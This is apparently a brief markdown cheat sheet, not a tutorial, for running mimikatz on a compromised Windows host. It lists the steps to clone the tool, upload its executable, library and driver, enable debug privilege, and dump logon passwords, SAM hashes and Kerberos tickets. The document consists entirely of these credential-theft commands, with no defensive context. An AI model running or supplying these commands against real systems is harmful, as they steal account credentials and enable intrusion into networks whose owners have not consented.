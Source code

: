 ### stand alone version
download
```
git clone https://github.com/ParrotSec/mimikatz.git
```

upload mimikatz files in x64 folder
```
mimikatz.exe, mimilib.dll, mimidrv.sys
```

execute
```
.\mimikatz.exe
```

debug on
```
privilege::debug
```

logonpasswords
```
sekurlsa::logonpasswords
```

sam dump
```
lsadump::sam
```

tickets dump
```
sekurlsa::tickets
```
